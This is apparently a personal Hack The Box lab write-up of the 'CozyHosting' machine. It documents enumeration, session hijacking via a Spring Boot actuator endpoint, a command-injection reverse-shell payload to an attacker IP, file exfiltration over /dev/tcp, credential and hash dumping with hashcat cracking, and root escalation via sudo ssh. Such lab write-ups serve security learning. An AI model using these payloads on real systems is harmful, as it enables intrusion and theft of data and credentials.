## Testing
Start: 2026-09-23, 09:30

IP:
```
10.129.229.88
```
---

ports

```
sudo nmap -p- -Pn -n -vv --min-rate=5000 10.129.229.88 -oG network/nmap_ports.txt
```



SSH, HTTP

service

```
sudo nmap -p22,80 -Pn -n -sCV --min-rate=5000 10.129.229.88 -oN network/nmap_service.txt
```



Web server: nginx 1.18

OS: Ubuntu

Domain: `cozyhosting.htb`

Add IP - Domain to `/etc/hosts`


HTTP - Web

Browsing: http://cozyhosting.htb/


Fuzzing

```
ffuf -u http://cozyhosting.htb/FUZZ -w /opt/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```



admin, index, logout, error, ...

Error page `/error` -> `"Whitelabel Error Page"`



Searching


Spring Boot ("Spring Boot is an open-source Java framework used for programming standalone, production-grade Spring-based applications with a bundle of libraries that make project startup and management easier")

---
**Hint**: https://www.youtube.com/watch?v=okTl6kWrncg Min 7

Fuze with Spring boot specific wordlists

Find wordlist in SecLists

```
find /opt/wordlists/SecLists | grep -i spring
```

```
SecLists/Discovery/Web-Content/Programming-Language-Specific/Java-Spring-Boot.txt
```
---

Fuzzing

```
ffuf -u http://cozyhosting.htb/FUZZ -w /opt/wordlists/SecLists/Discovery/Web-Content/Programming-Language-Specific/Java-Spring-Boot.txt
```



Present paths for Spring Boot actuator...

Browsing: http://cozyhosting.htb/actuator/sessions



Session for user `kanderson`: `1119F73508222E2CD45D78631A58E4AE`

Using session. F12 DevTools > Storage - Cookies > JSESSIONID

Can now access `/admin`



See "Include host into automatic patching" function

After probing different ways to inject, find `username` parameter is OS command injectable



```
;{sleep,3};
```

Crafting reverse shell payload (shell)

```
bash -c 'bash -i &> /dev/tcp/10.10.14.204/9001 0>&1'
```

b64 encode it

```
base 64 -w 0 shell
```
`YmFzaCAtYyAnYmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC4yMDQvOTAwMSAwPiYxJwo=`

Payload to request

```
;{echo,<b64_string>}|{base64,-d}|bash;
```

Separator, echo the payload, decode it and execute it, separator

URL encode the whole payload

```
%3b{echo,YmFzaCAtYyAnYmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC4yMDQvOTAwMSAwPiYxJwo%3d}|{base64,-d}|bash%3b
```

set listener, send

Got the connection back

```
whoami && ifconfig | grep inet
```



Connected as `app` to the target system `cozyhosting` with IP: 10.129.229.88

Nothing interesting on `/etc/nginx/*`

No interesting SUID bins

Cant enumerate sudo privileges without password

See `cloudhosting-0.0.1.jar` on `/app`

Permission denied to unzip it

Sending to attacker system

```
cat cloudhosting-0.0.1.jar > /dev/tcp/10.10.14.204/9001
```

```
nc -nlvp 9001 > cozyhosting.jar
```

```
unzip *.jar
```

Find properties files (https://docs.spring.io/spring-boot/how-to/properties-and-configuration.html)

```
find . -name *.properties
```

`./BOOT-INF/classes/application.properties`

`./META-INF/maven/htb.cloudhosting/cloudhosting/pom.properties`

```
cat ./BOOT-INF/classes/application.properties
```



Postgres SQL database at 5432

Username: `postgres`

Password: `Vg&nvzAQ7XxR`


Connect to db with psql

```
psql -h localhost -U postgres
```



Hangs out thinking

Upgrading shell with python

Upgrading dumb shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

CTRL + Z

```
stty raw -echo; fg
```

ENTER

Connect to db with psql

```
psql -h localhost -U postgres
```



Now can connect

```
\list
```



```
\c cozyhosting
```

```
\d
```



```
select * from users;
```


`kanderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim`

`admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm`

Searching: https://docs.spring.io/spring-security/reference/features/authentication/password-storage.html#authentication-password-storage-dpe-format

It seems the hashes are bcrypt

Will use mode 3200

```
hashcat cozyhosting.hashes -m 3200 rockyou.txt
```


 
Admin hash cracked: manchesterunited

`admin:manchesterunited`

Before saw only `josh` account under /home so will check for reuse

Is valid for user josh as thought



```
cat /home/josh/user.txt
```

user.txt: `9e215d6f05d61505919c2aafcd31f4f3`

---

Enumerating sudo privileges

```
sudo -l
```



https://gtfobins.org/gtfobins/ssh/

Reading files as root (root.txt)

```
sudo ssh -F /root/root.txt x
```



root.txt: `21003d5b468478ecbeba4930b4b1f6be`

(this is possible because the root.txt flag is known to normally live under /root/)

Can also get a shell as root

```
sudo ssh -o ProxyCommand=';/bin/sh 0<&2 1>&2' x
```



End: 2026-09-23, 13:15

---
---
##### Post Testing
##### Time frame
Start: 2026-09-23, 09:30

End: 2026-09-23, 13:15

Total time testing: 3h 45min
##### Techniques
- Fingerprint app via default error page
- Session hijack (leaked though Spring Boot `actuator/sessions`)
- OS command injection with space filtering
- Read Spring Boot configuration files (`*.properties`)
- Enumerate PostgreSQL database authenticated
- Abuse `ssh` sudo privilege - Read files and Shell as root
##### Sources
- Spring Boot configuration files info: https://docs.spring.io/spring-boot/how-to/properties-and-configuration.html
- Spring Boot password storage info (hash types): https://docs.spring.io/spring-security/reference/features/authentication/password-storage.html#authentication-password-storage-dpe-format
- `ssh` binary abuse: https://gtfobins.org/gtfobins/ssh/
- Hint: IppSec video min. 7: https://www.youtube.com/watch?v=okTl6kWrncg
